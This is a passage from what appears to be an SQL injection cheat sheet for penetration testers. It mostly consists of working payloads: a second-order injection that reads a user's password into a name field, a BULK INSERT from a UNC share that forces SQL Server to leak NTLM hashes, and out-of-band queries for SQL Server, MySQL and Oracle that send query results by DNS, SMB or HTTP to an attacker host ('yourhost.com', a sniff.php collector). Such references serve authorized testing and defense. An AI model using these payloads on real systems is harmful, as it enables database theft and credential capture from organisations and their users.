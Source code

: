 Basically, you put an SQL Injection to some place and expect it's unfiltered in another action. This is common hidden layer problem.

Name : `' + (SELECT TOP 1 password FROM users ) + '`   
Email : `xx@xx.com`

If application is using name field in an unsafe stored procedure or function, process etc. then it will insert first users password as your name etc.

### Forcing SQL Server to get NTLM Hashes

This attack can help you to get SQL Server user's Windows password of target server, but possibly you inbound connection will be firewalled. Can be very useful internal penetration tests. We force SQL Server to connect our Windows UNC Share and capture data NTLM session with a tool like Cain & Abel.

#### Bulk insert from a UNC Share (S)   
`bulk insert foo from '\\YOURIPADDRESS\C$\x.txt'`

Check out Bulk Insert Reference to understand how can you use bulk insert.

## Out of Band Channel Attacks

### SQL Server

-   ?vulnerableParam=1; SELECT \* FROM OPENROWSET('SQLOLEDB', ({INJECTION})+'.yourhost.com';'sa';'pwd', 'SELECT 1')  
    Makes DNS resolution request to {INJECT}.yourhost.com  
      
    
-   ?vulnerableParam=1; DECLARE @q varchar(1024); SET @q = '\\\\'+({INJECTION})+'.yourhost.com\\\\test.txt'; EXEC master..xp\_dirtree @q  
    Makes DNS resolution request to {INJECTION}.yourhost.com  
      
    {INJECTION} = You want to run the query.

### MySQL

-   ?vulnerableParam=-99 OR (SELECT LOAD\_FILE(concat('\\\\\\\\',({INJECTION}), 'yourhost.com\\\\')))  
    Makes a NBNS query request/DNS resolution request to yourhost.com
    

-   ?vulnerableParam=-99 OR (SELECT ({INJECTION}) INTO OUTFILE '\\\\\\\\yourhost.com\\\\share\\\\output.txt')  
    Writes data to your shared folder/file
    
    {INJECTION} = You want to run the query.
    

### Oracle

-   ?vulnerableParam=(SELECT UTL\_HTTP.REQUEST('http://host/ sniff.php?sniff='||({INJECTION})||'') FROM DUAL)  
    Sniffer application will save results
    